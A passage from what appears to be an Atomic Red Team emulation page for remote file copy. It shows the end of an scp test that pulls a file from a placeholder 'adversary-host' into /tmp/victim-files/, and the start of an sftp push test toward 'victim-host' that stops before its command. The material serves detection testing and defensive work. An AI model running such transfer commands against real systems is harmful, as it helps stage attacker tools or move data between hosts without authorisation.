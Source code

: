 **Supported Platforms:** Linux, macOS


**auto_generated_guid:** b9d22b9a-9778-4426-abf0-568ea64e9c33





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| remote_host | Remote host to copy from | string | adversary-host|
| local_path | Local path to receive scp | path | /tmp/victim-files/|
| remote_file | Path of file to copy | path | /tmp/adversary-scp|
| username | User account to authenticate on remote host | string | adversary|


#### Attack Commands: Run with `sh`! 


```sh
scp #{username}@#{remote_host}:#{remote_file} #{local_path}
```






<br/>
<br/>

## Atomic Test #5 - sftp remote file copy (push)
Utilize sftp to perform a remote file copy (push)

**Supported Platforms:** Linux, macOS


**auto_generated_guid:** f564c297-7978-4aa9-b37a-d90477feea4e





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| remote_path | Remote path to receive sftp | path | /tmp/victim-files/|
| local_file | Path of file to copy | path | /tmp/adversary-sftp|
| remote_host | Remote host to copy toward | string | victim-host|
| username | User account to authenticate on remote host | string | victim|


#### Attack Commands: Run with `bash`! 
